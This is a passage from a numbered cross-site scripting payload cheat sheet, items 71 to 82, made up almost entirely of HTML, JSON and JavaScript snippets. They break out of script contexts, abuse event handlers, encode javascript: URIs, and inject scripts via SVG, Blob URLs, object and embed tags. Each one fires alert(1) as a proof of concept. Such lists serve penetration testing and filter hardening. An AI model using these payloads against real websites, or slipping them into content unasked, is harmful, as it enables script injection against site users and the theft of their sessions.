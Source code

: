 **71. Polyglot Payload for Both JavaScript and JSON**
```json
{"name":"</script><script>alert(1)</script>"}
```

**72. Abuse of the `<noscript>` Tag**
```html
<noscript><img src="x" onerror="alert(1)"></noscript>
```

**73. Inline Style with JavaScript Execution**
```html
<div style="width:expression(alert(1))">XSS</div>  // Only effective in older IE versions
```

**74. Encoded JavaScript URI Manipulation**
```html
<a href="jav&#x61;script:alert(1)">Click</a>
```

**75. SVG Injection with Script Element**
```html
<svg><script>alert(1)</script></svg>
```

**76. Abuse of ARIA Attributes for Injection**
```html
<div role="alert" aria-live="assertive" onfocus="alert(1)" tabindex="0">Focus me</div>
```

**77. Abuse of Onscroll Event**
```html
<div onscroll="alert(1)">Scroll me</div>
```

**78. Injecting JavaScript into Template Literals**
```javascript
<script>let a = `</script><script>alert(1)</script>`;</script>
```

**79. Dynamic Script Injection Using Blob URLs**
```html
<script>let blob = new Blob(['alert(1)'], {type: 'text/javascript'}); let url = URL.createObjectURL(blob); document.body.appendChild(Object.assign(document.createElement('script'), {src: url}));</script>
```

**80. Abuse of `window.name`**
```html
<script>window.name = '<img src="x" onerror="alert(1)">';</script>
```

**81. Using `<object>` Tag for JavaScript Execution**
```html
<object data="javascript:alert('XSS')"></object>
```

**82. Using `<embed>` Tag for XSS**
```html
<embed src="javascript:alert('XSS')">
```
